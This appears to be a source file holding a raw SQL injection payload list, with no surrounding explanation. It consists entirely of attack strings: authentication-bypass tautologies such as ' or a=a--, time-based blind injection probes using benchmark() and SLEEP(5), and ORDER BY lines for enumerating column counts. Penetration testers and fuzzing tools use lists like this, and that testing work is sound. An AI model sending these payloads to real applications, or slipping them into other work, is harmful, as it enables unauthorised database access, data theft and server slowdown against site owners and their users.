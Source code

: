 ```
' or a=a--
' or a=a–
') or ('a'='a
') or ('a'='a and hi") or ("a"="a
'=' 'or' and '=' 'or'
" or benchmark(10000000,MD5(1))#
") or benchmark(10000000,MD5(1))#
")) or benchmark(10000000,MD5(1))#
' or benchmark(10000000,MD5(1))#
') or benchmark(10000000,MD5(1))#
')) or benchmark(10000000,MD5(1))#
or benchmark(50000000,MD5(1))
or benchmark(50000000,MD5(1))#
or benchmark(50000000,MD5(1))--
ORDER BY 1 
ORDER BY 1# 
ORDER BY 1-- 
ORDER BY 10 
ORDER BY 10# 
ORDER BY 10-- 
ORDER BY 11 
ORDER BY 11# 
ORDER BY 11-- 
ORDER BY 12 
ORDER BY 12# 
ORDER BY 12-- 
ORDER BY 13 
ORDER BY 13# 
ORDER BY 13-- 
ORDER BY 14 
ORDER BY 14# 
ORDER BY 14-- 
ORDER BY 15 
ORDER BY 15# 
ORDER BY 15-- 
ORDER BY 16 
ORDER BY 16# 
ORDER BY 16-- 
ORDER BY 17 
ORDER BY 17# 
ORDER BY 17-- 
ORDER BY 18 
ORDER BY 18# 
ORDER BY 18-- 
ORDER BY 19 
ORDER BY 19# 
ORDER BY 19-- 
ORDER BY 1,SLEEP(5)
ORDER BY 1,SLEEP(5)#
ORDER BY 1,SLEEP(5)-- 
ORDER BY 1,SLEEP(5),3#
ORDER BY 1,SLEEP(5),3-- 
ORDER BY 1,SLEEP(5),3,4#
ORDER BY 1,SLEEP(5),3,4-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A'))
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7
```